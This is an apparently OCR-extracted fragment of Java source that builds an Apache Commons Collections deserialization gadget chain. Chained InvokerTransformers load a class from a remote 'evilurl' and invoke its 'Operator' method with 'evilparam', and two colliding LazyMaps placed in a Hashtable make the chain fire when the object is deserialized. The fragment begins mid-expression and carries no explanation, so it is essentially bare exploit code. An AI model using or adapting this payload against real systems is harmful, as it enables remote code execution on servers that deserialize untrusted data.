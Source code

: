 ```java
                            new URL( evilurl )
                        }
                    }
                }
            ),
            new InvokerTransformer
            (
                "loadClass",
                new Class[]
                {
                    String.class
                },
                new Object[]
                {
                    evilclass
                }
            ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "Operator",
                    new Class[]
                    {
                        Object[].class
                    }
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[]
                    {
                        evilparam
                    }
                }
            )
        };
        Transformer     tchain      = new ChainedTransformer( new Transformer[0] );
        Map             normalMap_0 = new HashMap();
        Map             normalMap_1 = new HashMap();
        Map             lazyMap_0   = LazyMap.decorate( normalMap_0, tchain );
        Map             lazyMap_1   = LazyMap.decorate( normalMap_1, tchain );
        lazyMap_0.put( "scz", "same" );
        lazyMap_1.put( "tDz", "same" );
        Hashtable       ht          = new Hashtable();
        ht.put( lazyMap_0, "value_0" );
        ht.put( lazyMap_1, "value_1" );
        lazyMap_1.remove( "scz" );
```